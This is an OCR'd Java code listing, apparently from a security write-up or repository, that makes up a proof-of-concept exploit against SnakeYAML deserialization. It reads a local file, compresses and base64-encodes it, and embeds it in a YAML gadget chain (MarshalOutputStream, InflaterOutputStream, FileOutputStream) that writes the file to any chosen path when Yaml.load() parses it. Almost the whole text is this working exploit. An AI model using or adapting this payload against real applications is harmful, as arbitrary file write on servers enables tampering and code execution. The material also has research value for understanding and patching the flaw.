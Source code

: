 ```java
        String poc = createPoC("ser.bin","ser2.bin");//源文件和写文件的绝对路径
        Yaml yaml = new Yaml();
        yaml.load(poc);

    }


    public static String createPoC(String SrcPath,String Destpath) throws Exception {
        File file = new File(SrcPath);
        Long FileLength = file.length();
        byte[] FileContent = new byte[FileLength.intValue()];
        try{
            FileInputStream in = new FileInputStream(file);
            in.read(FileContent);
            in.close();
        }
        catch (FileNotFoundException e){
            e.printStackTrace();
        }
        byte[] compressbytes = compress(FileContent);
        String base64str = Base64.getEncoder().encodeToString(compressbytes);
        String poc = "!!sun.rmi.server.MarshalOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File [\""+Destpath+"\"],false],!!java.util.zip.Inflater  { input: !!binary "+base64str+" },1048576]]";
        System.out.println(poc);
        return poc;
    }

    public static byte[] compress(byte[] data) {
        byte[] output = new byte[0];

        Deflater compresser = new Deflater();

        compresser.reset();
        compresser.setInput(data);
        compresser.finish();
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!compresser.finished()) {
                int i = compresser.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            try {
                bos.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        compresser.end();
        return output;
    }
}
```
